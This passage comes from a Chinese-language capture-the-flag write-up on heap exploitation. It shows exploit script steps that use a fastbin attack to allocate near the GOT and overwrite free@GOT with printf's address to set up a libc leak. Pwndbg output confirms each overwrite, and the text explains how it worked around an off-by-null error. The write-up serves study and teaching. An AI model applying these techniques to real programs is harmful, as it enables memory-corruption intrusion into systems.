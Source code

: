 **STEP5** 修改脚本并运行，并附加调试

```
add(0x50, '000000')
add(0x50, '111111')
delete(1)
pause()
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, cyclic(n = 8, length = 0x30))
```

断点在add_item()函数上，单步跟踪两次malloc分配，并查看got，发现被成功覆写

```
pwndbg> b add_item   # 断点调试
pwndbg> ni           # 单步调试
pwndbg> got          # 查看GOT表，free@GOT等已经成功被覆盖为目标地址
GOT protection: Partial RELRO | GOT functions: 12
[0x602018] free@GLIBC_2.2.5 -> 0x6161616161636161 ('aacaaaaa')
[0x602020] puts@GLIBC_2.2.5 -> 0x6161616161646161 ('aadaaaaa')
[0x602028] __stack_chk_fail@GLIBC_2.4 -> 0x6161616161656161 ('aaeaaaaa')
[0x602030] printf@GLIBC_2.2.5 -> 0x6161616161666161 ('aafaaaaa')
[0x602038] close@GLIBC_2.2.5 -> 0x6161
[0x602040] read@GLIBC_2.2.5 -> 0x7fefaa724250 (read)
[0x602048] __libc_start_main@GLIBC_2.2.5 -> 0x7fefaa64d740 (__libc_start_main)
...
```

**STEP6** 计算分配地址到free的got表偏移，并覆写为printf地址用于leak libc
分配到目标地址后，就可以往这个地址往后写数据。需精确计算一下覆写偏移并修改脚本，现在我们还不知道system的地址，因此如果要覆写成system，首先需要leak libc，所以需要先把free改成printf地址，就可以构造出格式化字符串漏洞，调用free("%p")就相当于调用printf("%p")，使用格式化字符串漏洞进行leak是比较方便的。

```
add(0x50, '000000')
add(0x50, '111111')
add(0x50, '%p')
delete(1)
pause()
edit(0, 0x100, flat('0' * 0x50, '00000000', 0x61, 0x601ffa))
add(0x50, 'xxxxxxxx')
add(0x50, flat('\0' * 14, elf.sym['printf']))
delete(2)
```

运行脚本尝试覆写为printf地址时，程序报错了，看了下原来是off by null问题，把后面的puts的got表地址尾部字节覆写为0x00导致报错，这里由于是64位指针，所以只需写满6字节就可以了，不用写满8字节，这样就可以避免off by null的影响：

```
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6])     # 只需写满6字节，避免off by null的影响
```

调整后重新调试，当执行到free@plt时，由于GOT被覆写，实际执行的是printf@plt地址0x4006d0：

```
    0x400ccd <remove_item+128>    shl    rax, 4
    0x400cd1 <remove_item+132>    add    rax, itemlist+8 <0x6020c8>
    0x400cd7 <remove_item+138>    mov    rax, qword ptr [rax]
    0x400cda <remove_item+141>    mov    rdi, rax
 >  0x400cdd <remove_item+144>    call   free@plt <0x4006d0>       # GOT劫持后实际执行的是printf@plt
        ptr: 0x199c0f0 ◂— 0x7025 /* '%p' */
    0x400ce2 <remove_item+149>    mov    eax, dword ptr [rbp - 0x14]
```
